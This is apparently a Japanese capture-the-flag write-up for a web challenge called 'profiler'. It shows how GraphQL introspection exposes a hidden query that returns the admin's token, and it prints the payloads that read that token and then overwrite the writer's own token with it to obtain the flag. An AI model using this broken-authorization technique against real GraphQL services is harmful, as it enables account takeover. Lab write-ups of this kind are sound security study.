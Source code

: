 # profiler
301 pt (59 Solves)
```
Let's edit your profile with profiler!

Hint: You don't need to deobfuscate *.js

Notice: Server is periodically initialized
```

## 概要
`Register`と`Login`画面。  
- Register  
`Registered successfully. Your token is [token]. Don't lose it! `と表示される。  
- Login
  プロフィール画面に遷移。`Update`と`Get FLAG`と`Logout`がある。  
    - Update  
    プロフィール文を更新する。`token`が必要
    - Get FLAG  
    `Sorry, your token is not administrator's one. This page is only for administrator(uid: admin).`と表示される。
    - Logout  
    そのまま。ログアウトされる

tokenが違うらしい。

## 解

cookieを見てみると`eyJ1aWQiOiJ5MGQzbiJ9.Xss_Lw.IlBxusBEtcQMdmOTy6eRjHtcjy4`。  
最初の値`eyJ1aWQiOiJ5MGQzbiJ9`をbase64デコードすると`{"uid":"y0d3n"}`。(y0d3nはログインしてるID)  
`{"uid":"admin"}`に書き換えても「tokenが違う」と怒られて上手くいかない。  

burpで通信を見てみるとGraphqlでいろいろしてる。Graphql playgroundでみてみる。

```
querys{
    me
    someone
    flag
}
mutations{
    updateProfile
    updateToken
}
```

といったかんじ。普通に使ってたら`me`,`flag`,`updateProfile`だけつかわれてる。
通信を書き換えてよしなにしていく。

```
{"query":"{someone(uid:\"admin\"){uid,name,profile,token}}"}
```

POSTで上のqueryを送信するとadminの情報が返ってくる。

```
{
  "data": {
    "someone": {
      "name": "admin",
      "profile": "Hello, I'm admin.",
      "token": "[token]",
      "uid": "admin"
    }
  }
}
```

返ってきたtokenを使って`updateToken`を送信。

```
{"query":"mutation{updateToken(token:\"[token]\")}"}
```

成功すると自分のtokenがadminと同じものに書き変わる。

`Get FLAG`を開くとFlag。

```
ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}
```